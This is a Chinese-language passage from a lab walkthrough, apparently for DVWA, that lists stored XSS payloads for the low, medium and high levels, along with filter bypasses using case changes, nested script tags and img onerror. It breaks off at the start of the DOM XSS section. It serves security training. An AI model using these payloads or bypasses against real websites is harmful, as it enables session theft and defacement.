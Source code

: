 

#### 2.存储型XSS攻击

##### 存储型 XSS LOW

这里就是进行留言就好了，payload

```
Name: Antlers
Message: <script>alert('XSS')</script>
```



##### 存储型 XSS Medium

查看源码发现Message字段没什么希望了，就尝试Name

**payload1**

```
Name: <img src=x onerror=alert('XSS')>
Message: www.qwe.com
```

**payload2**

因为`name`过滤规则的缺陷，同样使用**嵌套构造**和**大小写转换**也是可以Bypass的

```
Name: <Script>alert('XSS')</script>
Message: www.qwe.com

Name: <s<script>cript>alert('XSS')</script>
Message: www.qwe.com
```



##### 存储型 XSS high

`message`依然没什么希望，而`name`变量仅仅使用了如下规则来过滤，所以依然可以使用其他的标签来Bypass：

```javascript
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

**payload**

```
Name: <img src=x onerror=alert('XSS')>
Message: www.sqlsec.com
```



#### 3.DOM型XSS攻击

##### DOM型 XSS LOW

由于DOM XSS 是通过修改页面的 DOM 节点形成的 XSS。首先通过选择语言后然后往页面中创建了新的DOM节点：
